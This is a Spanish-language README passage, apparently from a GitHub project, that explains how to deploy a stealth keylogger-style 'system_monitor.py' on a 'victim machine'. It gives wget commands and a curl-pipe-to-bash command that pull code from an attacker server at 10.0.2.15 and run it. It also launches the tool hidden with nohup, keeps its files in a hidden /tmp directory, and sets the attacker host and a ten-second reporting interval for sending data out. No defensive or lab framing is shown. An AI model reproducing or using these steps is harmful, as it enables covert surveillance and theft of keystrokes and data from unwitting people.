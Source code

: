 #### 🔧 Opción C: Instalación Manual
```bash
# Descargar archivos
wget http://10.0.2.15:8000/system_monitor.py

# Instalar dependencias
pip3 install pynput requests

# Ejecutar en modo stealth
nohup python3 system_monitor.py --stealth > /dev/null 2>&1 &
```

#### Opción C: Descarga Completa del Proyecto
```bash
# Descargar todo el directorio
wget -r -np -nH --cut-dirs=1 -R "index.html*" http://10.0.2.15:8000/

# Ejecutar instalación
chmod +x auto_setup.sh
./auto_setup.sh
```

### 4. Detener el Monitoreo

```bash
# Desde la máquina víctima
curl -s http://10.0.2.15:8000/stop_monitor.sh | bash

# O manualmente
kill $(cat /tmp/.sys_tools/.monitor_pid)

# O con limpieza completa
pkill -f "system_monitor.py"
rm -rf /tmp/.sys_tools/
```

## 🔧 Configuración

### Cambiar IP del Servidor Atacante
Editar en `system_monitor.py`:
```python
config = {
    'server_host': "TU_IP_AQUI",  # Cambiar por tu IP real
    'server_port': 8080,
    # ... resto de configuración
}
```

### Ajustar Intervalos
```python
config = {
    'analysis_interval': 3,    # Análisis cada 3 segundos
    'report_interval': 10,     # Envío cada 10 segundos
    # ...
}
```

